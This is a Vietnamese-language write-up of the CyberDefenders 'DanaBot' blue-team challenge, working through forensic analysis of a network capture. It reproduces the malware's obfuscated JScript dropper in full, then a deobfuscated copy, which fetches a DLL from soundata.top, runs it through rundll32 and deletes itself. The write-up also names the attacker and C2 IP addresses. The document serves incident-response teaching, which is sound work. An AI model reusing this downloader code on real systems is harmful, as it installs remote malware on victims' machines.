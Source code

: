 ### Description 
> Our SOC team detected suspicious activity in the network traffic. A machine has been compromised, and company information that should not have been there has now been stolen. It’s up to you to determine what happened and what data was taken.
### Link challenge 
> https://cyberdefenders.org/blueteam-ctf-challenges/danabot/
### Solution 
- Bài này cho ta 1 file pcap, mở file ra ta nhìn thấy ngay 1 lệnh GET file login.php
- Theo dõi luồng stream này ta thấy nó get 1 file login.php nhưng thực chất nó đã bị chuyển hướng đến file `allegato_708.js`(2) nhưng đã bị `obfuscation`
```
function _0x23c2(){var _0xac67d2=['a8k3odVdVaBcHh/dUmoMWRBdK8kS','W6XeW43cPJWvWQ/cGhykW5FcQ3O','WOa1eupdOSkXWROVjCoMbLldTNq','WQWlk2mA','j8ocW6xcJ0hdNCoJW4RcPsRdVmo6kW','pmk+dmk5W6qEW67dOMi','ECo8WPZdNmojb37dQSoLe8kIja','tmopD8k7W7a1W4VdSLeMuCoNWP1VW5pcVgehWPzkB3hdKKSpnatdICkRoIxdT1O/W6Tzru3dMmoBmCkfW6xcNmkdW6ZdJ8oWCSklWQ/dVG','AcXXvd0E','W5hcUaxcQZFdG8khp13dMezGeG','gSkFWPRdN8kLrCkMdq','kSoWqSkCqmobWRhcGtCsjYm','WPKzWQCXWOhdTmo/','W6uSb8o4z8oHxbVcRfNdICou','W5JcIImOW57cRCoOhJO','jKJcOIerWOhcMaXtd01a','W69bW4pcOtWAWQNcRLm+W6tcQ2e','WQvGi8kdW59hjSkCsx3cRCkR','vCozW4/cRCkEWQRdS8onFsTaWPRcJCoru8o6','W7TtCJvFwHeFW53dSrjc','BXinydldQ8oeWQpdK15tW7pcVq','wCo0rmkA','WQVdH1zWwcldI8kmnNpdSCoUWO0','p2OrWOqWWRS','W7iWWQu2','g3K9WPC','WPS6amoPESo7','n2rUfXKj','lSkTamkgb8o2W7tcH8ktqSkAWOSIWQXnW6u','W6fVuXRcPSo3W4Wio8o4exJdSa','W6XdW4FcOtGAWQ7cRuCyW6RcMxC','W6qOaSoTxmoGArFcGLm','ASkXW5aoWQS','qmoEBmkYW7LbWQldOLuGuSo/WOrX','W6VcUv0vELW+WQ8yfCkbW4S','BSkGW4StWR7cRg1RzCo+WPjfeSoNW4LfF8k7mwrDiJVdTf7cQW','eSofqmkq','W6hcGmkYmLHeWRJdNfuiW4jrqCkVzmkHhmknWPz/W6pcNJ/dRSoSW4WSpNn2WPiGW5a','W7HEDdXCuxqpW6hdUqrWW5K','W4pdVrDzWPJcMmkvmZefcNS','W5/dJfJdUMZcT8o2','g0qgkvtdTG','AXWozJVdQ8kKWQNdQwPRW5m','ueNcGq','W4neW7ZcHLJdJ8kTBmkqW7HAt28','iSktWPxcO8k5y0WHsce','E8k3WQG+W5e','yCoKCMFcUeRdMxtdM8kDWRNdR8kzqmoPWQ87W5aAWR1woH7cRCoxW6S','gwbR','fhfLhG'];_0x23c2=function(){return _0xac67d2;};return _0x23c2();}var _0x10ab20=_0x57c2;(function(_0x562920,_0x324070){var _0x4c8674=_0x57c2,_0x538a6a=_0x562920();while(!![]){try{var _0x385777=parseInt(_0x4c8674(0x158,'XkeN'))/0x1+parseInt(_0x4c8674(0x12e,'[%Fm'))/0x2+-parseInt(_0x4c8674(0x142,'XkeN'))/0x3+parseInt(_0x4c8674(0x13e,'O%ju'))/0x4+-parseInt(_0x4c8674(0x14b,'xQOj'))/0x5+parseInt(_0x4c8674(0x133,'A4&G'))/0x6*(parseInt(_0x4c8674(0x150,'dK59'))/0x7)+-parseInt(_0x4c8674(0x156,'(Q&R'))/0x8*(parseInt(_0x4c8674(0x132,'OlYg'))/0x9);if(_0x385777===_0x324070)break;else _0x538a6a['push'](_0x538a6a['shift']());}catch(_0x2d274b){_0x538a6a['push'](_0x538a6a['shift']());}}}(_0x23c2,0x54a3a));function _0x414360(_0x5c5160){var _0x567e59=_0x57c2,_0x119065='',_0x4f008b=_0x567e59(0x135,'A4&G'),_0x5a393f=_0x4f008b[_0x567e59(0x149,'w@FV')];for(var _0x3d45b7=0x0;_0x3d45b7<_0x5c5160;_0x3d45b7++){_0x119065+=_0x4f008b[_0x567e59(0x157,'*rdb')](Math[_0x567e59(0x131,'sRMv')](Math[_0x567e59(0x145,'GKs8')]()*_0x5a393f));}return _0x119065+_0x567e59(0x147,'5%8N');}var _0x23d4f8=_0x10ab20(0x153,'%$(b'),_0x48a85a=_0x414360(0xa),_0x44bdd9=new ActiveXObject(_0x10ab20(0x151,'V6of'))[_0x10ab20(0x14a,'^5PL')](0x2)+'\x5c'+_0x48a85a,_0x5da57f=WScript[_0x10ab20(0x134,'oGec')](_0x10ab20(0x14f,'A4&G'));function _0x57c2(_0x11e4af,_0x54a6eb){var _0x23c29e=_0x23c2();return _0x57c2=function(_0x57c28d,_0x19268b){_0x57c28d=_0x57c28d-0x128;var _0x26c549=_0x23c29e[_0x57c28d];if(_0x57c2['VLfCmI']===undefined){var _0x9ab1c1=function(_0x49a20c){var _0x3b5c63='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';var _0xcdecf3='',_0x16e53d='';for(var _0x39434a=0x0,_0x3cb912,_0x118fbd,_0x4e12df=0x0;_0x118fbd=_0x49a20c['charAt'](_0x4e12df++);~_0x118fbd&&(_0x3cb912=_0x39434a%0x4?_0x3cb912*0x40+_0x118fbd:_0x118fbd,_0x39434a++%0x4)?_0xcdecf3+=String['fromCharCode'](0xff&_0x3cb912>>(-0x2*_0x39434a&0x6)):0x0){_0x118fbd=_0x3b5c63['indexOf'](_0x118fbd);}for(var _0x42daf9=0x0,_0x4f2d07=_0xcdecf3['length'];_0x42daf9<_0x4f2d07;_0x42daf9++){_0x16e53d+='%'+('00'+_0xcdecf3['charCodeAt'](_0x42daf9)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(_0x16e53d);};var _0x1be13e=function(_0x43cbd0,_0x5e5510){var _0x14b9a0=[],_0x24e5cd=0x0,_0x5c44af,_0x5c1992='';_0x43cbd0=_0x9ab1c1(_0x43cbd0);var _0x363895;for(_0x363895=0x0;_0x363895<0x100;_0x363895++){_0x14b9a0[_0x363895]=_0x363895;}for(_0x363895=0x0;_0x363895<0x100;_0x363895++){_0x24e5cd=(_0x24e5cd+_0x14b9a0[_0x363895]+_0x5e5510['charCodeAt'](_0x363895%_0x5e5510['length']))%0x100,_0x5c44af=_0x14b9a0[_0x363895],_0x14b9a0[_0x363895]=_0x14b9a0[_0x24e5cd],_0x14b9a0[_0x24e5cd]=_0x5c44af;}_0x363895=0x0,_0x24e5cd=0x0;for(var _0x46ed8b=0x0;_0x46ed8b<_0x43cbd0['length'];_0x46ed8b++){_0x363895=(_0x363895+0x1)%0x100,_0x24e5cd=(_0x24e5cd+_0x14b9a0[_0x363895])%0x100,_0x5c44af=_0x14b9a0[_0x363895],_0x14b9a0[_0x363895]=_0x14b9a0[_0x24e5cd],_0x14b9a0[_0x24e5cd]=_0x5c44af,_0x5c1992+=String['fromCharCode'](_0x43cbd0['charCodeAt'](_0x46ed8b)^_0x14b9a0[(_0x14b9a0[_0x363895]+_0x14b9a0[_0x24e5cd])%0x100]);}return _0x5c1992;};_0x57c2['Gcvrzi']=_0x1be13e,_0x11e4af=arguments,_0x57c2['VLfCmI']=!![];}var _0x178ebd=_0x23c29e[0x0],_0x14ddc7=_0x57c28d+_0x178ebd,_0x2a1ef9=_0x11e4af[_0x14ddc7];return!_0x2a1ef9?(_0x57c2['BCBEPx']===undefined&&(_0x57c2['BCBEPx']=!![]),_0x26c549=_0x57c2['Gcvrzi'](_0x26c549,_0x19268b),_0x11e4af[_0x14ddc7]=_0x26c549):_0x26c549=_0x2a1ef9,_0x26c549;},_0x57c2(_0x11e4af,_0x54a6eb);}_0x5da57f[_0x10ab20(0x12d,'w@FV')](_0x10ab20(0x12c,'XkeN'),_0x23d4f8,![]),_0x5da57f[_0x10ab20(0x146,'B[vm')]();if(_0x5da57f[_0x10ab20(0x136,'t2ew')]==0xc8){var _0x3c8952=WScript[_0x10ab20(0x139,'RdnH')](_0x10ab20(0x155,'6N7O'));_0x3c8952[_0x10ab20(0x152,'1GKJ')](),_0x3c8952[_0x10ab20(0x143,'A4&G')]=0x1,_0x3c8952[_0x10ab20(0x14e,'V6of')](_0x5da57f[_0x10ab20(0x13b,'h*Z]')]),_0x3c8952[_0x10ab20(0x138,'JDok')]=0x0,_0x3c8952[_0x10ab20(0x14d,'h*Z]')](_0x44bdd9,0x2),_0x3c8952[_0x10ab20(0x12a,'DYtC')]();var _0x1e16b0=WScript[_0x10ab20(0x13f,']o#z')](_0x10ab20(0x144,'o]7W'));_0x1e16b0[_0x10ab20(0x159,'^n!v')](_0x10ab20(0x140,'1^^k')+_0x44bdd9+_0x10ab20(0x148,'h*Z]'),0x0,!![]);}new ActiveXObject(_0x10ab20(0x12b,'[%Fm'))[_0x10ab20(0x129,'$$(i')](WScript[_0x10ab20(0x130,'xQOj')]);
```
- Sử dụng công cụ online để deobfuscation : https://deobfuscate.relative.im
```
function _0x414360(_0x5c5160) {
  var _0x119065 = '',
    _0x4f008b = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz',
    _0x5a393f = _0x4f008b.length
  for (var _0x3d45b7 = 0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += _0x4f008b.charAt(Math.floor(Math.random() * _0x5a393f))
  }
  return _0x119065 + '.dll'
}
var _0x23d4f8 = 'http://soundata.top/resources.dll',
  _0x48a85a = _0x414360(10),
  _0x44bdd9 =
    new ActiveXObject('Scripting.FileSystemObject').GetSpecialFolder(2) +
    '\\' +
    _0x48a85a,
  _0x5da57f = WScript.CreateObject('MSXML2.XMLHTTP')
_0x5da57f.Open('GET', _0x23d4f8, false)
_0x5da57f.Send()
if (_0x5da57f.Status == 200) {
  var _0x3c8952 = WScript.CreateObject('ADODB.Stream')
  _0x3c8952.Open()
  _0x3c8952.Type = 1
  _0x3c8952.Write(_0x5da57f.ResponseBody)
  _0x3c8952.Position = 0
  _0x3c8952.SaveToFile(_0x44bdd9, 2)
  _0x3c8952.Close()
  var _0x1e16b0 = WScript.CreateObject('Wscript.Shell')
  _0x1e16b0.Run('rundll32.exe /B ' + _0x44bdd9 + ',start', 0, true)
}
new ActiveXObject('Scripting.FileSystemObject').DeleteFile(
  WScript.ScriptFullName
)
```
- Hàm `_0x414360` mục đích để tạo tên 1 file ngẫu nhiên
```
var _0x23d4f8 = 'http://soundata.top/resources.dll',
  _0x48a85a = _0x414360(10),
  _0x44bdd9 =
    new ActiveXObject('Scripting.FileSystemObject').GetSpecialFolder(2) +
    '\\' +
    _0x48a85a,
  _0x5da57f = WScript.CreateObject('MSXML2.XMLHTTP')
```
- _0x23d4f8: URL mà từ đó mã độc sẽ tải file DLL.
- _0x48a85a: Sử dụng hàm _0x414360 để tạo tên file ngẫu nhiên.
- _0x44bdd9: Lưu file vào thư mục đặc biệt trên máy tính của người dùng (GetSpecialFolder(2) trả về thư mục "My Documents") với tên file vừa tạo.
- _0x5da57f: Khởi tạo một đối tượng HTTP để gửi yêu cầu tải file từ URL.
```
_0x5da57f.Open('GET', _0x23d4f8, false)
_0x5da57f.Send()
if (_0x5da57f.Status == 200) {
  var _0x3c8952 = WScript.CreateObject('ADODB.Stream')
  _0x3c8952.Open()
  _0x3c8952.Type = 1
  _0x3c8952.Write(_0x5da57f.ResponseBody)
  _0x3c8952.Position = 0
  _0x3c8952.SaveToFile(_0x44bdd9, 2)
  _0x3c8952.Close()
```
- Mã này gửi một yêu cầu HTTP GET đến URL http://soundata.top/resources.dll để tải về file DLL.
```
var _0x1e16b0 = WScript.CreateObject('Wscript.Shell')
_0x1e16b0.Run('rundll32.exe /B ' + _0x44bdd9 + ',start', 0, true)
new ActiveXObject('Scripting.FileSystemObject').DeleteFile(
  WScript.ScriptFullName
)
```
- Thực thi file này bằng Wscript.exe (4) và xoá nó nhằm tránh sự điều tra của Blue team.
- Nhìn vào wireshark, ta thấy ip ra lệnh GET `resources.dll` (đây cũng chính là ip thực thi file này) là `10.2.14.101` , ta sẽ theo dõi ip này để xem ip của kẻ tấn công là gì.
> ip.src == 10.2.14.101
- Tại luồng tcp thứ 11, ta thấy có 1 vài gói
- ![ơdas](image/36.png)
- Nhìn vào cổng 443 và gói SYN, thấy rằng đây là 1 gói yêu cầu thiết lập HTTPS, và đây là gói đầu tiên trong quá trình bắt tay 3 bước
- Theo dõi luồng tiếp theo, ta thấy dữ liệu được gửi đi thông qua ssl
- ![â](image/37.png)
- Từ đây ta có thể xác định được rằng ip của kẻ tấn công là `62.173.146.41`(1) và ip C2 là `91.201.67.85`(7)
- Ngoài ra ta cũng có thể có 1 vài cách phân tích khác như phân tích tĩnh thông qua cách đọc src ida hoặc sử dụng virustotal để phân tích động


